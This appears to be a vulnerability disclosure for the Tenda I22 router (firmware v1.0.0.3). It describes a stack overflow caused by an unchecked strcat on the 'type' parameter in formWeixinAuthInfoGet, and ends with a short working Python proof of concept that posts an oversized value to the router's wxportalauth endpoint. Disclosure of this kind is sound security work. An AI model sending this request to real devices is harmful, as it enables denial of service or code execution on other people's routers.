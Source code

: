 # Tenda I22 formWeixinAuthInfoGet
### Overview
vendor: Tenda

product: I22

version: v1.0.0.3(4687)

type: Stack Overflow
### Vulnerability Description
Tenda I22 v1.0.0.3(4687) were discovered to contain a stack overflow via the type parameter in the formWeixinAuthInfoGet function.

### Vulnerability details
In function formWeixinAuthInfoGet line 20, it reads in a user-provided parameter `type`. The variable `src` is passed to the `strcat` function without any length check, which may overflow the stack-based buffer `s`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/6.png)

### POC
```python
import requests

data = {
    "type": "a"*0x2000
}
res = requests.post("http://192.168.0.1/goform/wxportalauth", data=data)
print(res.content)
```